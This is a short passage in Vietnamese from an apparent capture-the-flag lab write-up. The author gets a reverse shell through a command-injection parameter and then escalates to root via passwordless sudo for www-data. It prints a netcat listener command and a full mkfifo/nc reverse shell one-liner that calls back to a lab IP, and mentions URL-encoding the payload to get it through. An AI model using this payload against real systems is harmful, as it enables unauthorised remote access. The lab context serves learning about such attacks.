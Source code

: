 <img width="1478" height="498" alt="image" src="https://github.com/user-attachments/assets/01352220-91f4-4c9a-ad95-8dff72c4ae84" />

khởi chạy netcat 

nc -lnvp 1234

bây giờ sau &cmd= tôi sử dụng reverse shell 

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.14.108.226 1234 >/tmp/f

nhưng không được nên tôi thử dùng cyberchef url-encode thành công 

<img width="787" height="137" alt="image" src="https://github.com/user-attachments/assets/82c274b4-ace2-4360-a943-c489a60414ef" />

ohh tới bước này thì khá dễ dàng cửa root mở toang rồi 

www-data có thể chạy bất kỳ lệnh nào với quyền root mà không cần nhập mật khẩu

và tôi đã có được cờ root

<img width="584" height="249" alt="image" src="https://github.com/user-attachments/assets/d00a4ebe-4f32-4f51-a11c-9988471656de" />

